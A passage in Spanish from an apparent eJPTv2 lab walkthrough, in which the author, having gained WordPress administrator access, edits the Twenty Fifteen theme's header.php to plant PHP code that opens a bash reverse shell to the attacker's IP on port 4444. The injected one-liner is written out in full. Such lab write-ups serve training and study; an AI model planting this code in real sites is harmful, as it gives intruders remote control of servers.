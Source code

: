 Y obtenemos acceso como el usuario administrador.

![picture](/assets/images/ejptv2/cold10.png)

Ahora la idea es intentar ejecutar una **Reverse Shell** para obtener acceso a la máquina mediante una **Shell** interactiva desde nuestra máquina local.

Veo que está el tema "**Twenty Fifteen**" instalado, y puedo editarlo.

A continuación, en el archivo "**header.php**" le inyecto el código **PHP** que me devolverá la **Reverse Shell**.

```php
<?php
exec("bash -c 'bash -i >& /dev/tcp/Nuestra IP/4444 0>&1'");
?>
```

Y lo guardamos.

![picture](/assets/images/ejptv2/cold11.png)
